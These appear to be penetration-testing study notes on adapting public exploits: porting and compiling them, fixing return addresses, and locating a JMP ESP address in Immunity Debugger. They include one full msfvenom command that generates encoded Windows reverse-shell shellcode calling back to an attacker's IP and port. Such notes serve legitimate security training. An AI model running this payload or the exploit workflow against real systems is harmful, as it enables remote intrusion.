 
To avoid downtime we should always read exploit code carefully, modify as needed and test it against our own sandboxed target when possible.

Sometimes it is useful to port an exploit to a different language to utilize different pre-written libraries and extend exploit functionality.

Sometimes exploits need to be compiled on different systems.

#### Fixing

If our exploit does not work due to the return address not being available or utilizing return addresses of DLLs that are not present - we can further search for other public exploits for the same vulnerability with working return addresses that have been verified by exploitDB.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` - replacing shellcode of an exploit to include our own information for a reverse shell. `-b` is bad characters not to be included.


#### Immunity Debugger

1. start service on our host.
2. launch immunity debugger
3. attach to service
4. click view
5. click executable modules - this is where we can confirm which DLLs are available and used in our service we are debugging by checking name and values
6. `ctrl + g` find memory address for JMP ESP and set breakpoint